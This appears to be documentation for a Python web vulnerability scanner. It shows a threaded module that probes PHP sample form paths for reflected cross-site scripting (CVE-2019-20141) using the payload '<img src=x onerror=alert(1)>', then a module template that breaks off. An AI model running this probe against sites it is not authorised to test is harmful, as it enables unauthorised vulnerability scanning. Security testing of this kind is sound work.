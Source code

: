 #### scan website from cve-2019-20141
```python
#!/usr/bin/env python3

from libs import NewRequest as nq
from libs import post_data
from core import ShowMessage as show
from core import info,bad
from threading import Thread
from queue import Queue
from urllib.parse import urlparse,urljoin

q = Queue()

def add_path(url):
    paths = [
            "data/sample-register-form.php",
            "data/sample-login-form.php",
            "data/autosuggest-remote.php",
            "data/sample-forgotpassword-form.php",
            "data/login-form.php"
            ]
    urls = []
    for path in paths:
        urls.append(urljoin(url,path))
    return urls
def threader():
    while True:
        item = q.get()
        NEON_CVE(item)
        q.task_done()
def run(opts):
    for i in range(opts['threads']):
        p1 = Thread(target=threader)
        p1.daemon = True
        p1.start()
    for url in opts['url']:
        q.put(url)
    q.join()
def NEON_CVE(url):
    urls = add_path(url)
    for u in urls:
        r = nq.Post(u,post_data('q=<img src=x onerror=alert(1)>'))
        if '<img src=x onerror=alert(1)>'.encode('utf-8') in r.content:
            show.bug(bug='Cross-site scripting',payload='<img src=x onerror=alert(1)>',method='GET',parameter='q',target=u,link='q=<img src=x onerror=alert(1)>')
  
```
#### Simple Module Template
```python3
#!/usr/bin/env python3
from threading import Thread
from queue import Queue

q = Queue()

def myfunc(host):
    print(host)
    
    
def threader():
    while True:
        item = q.get()
```
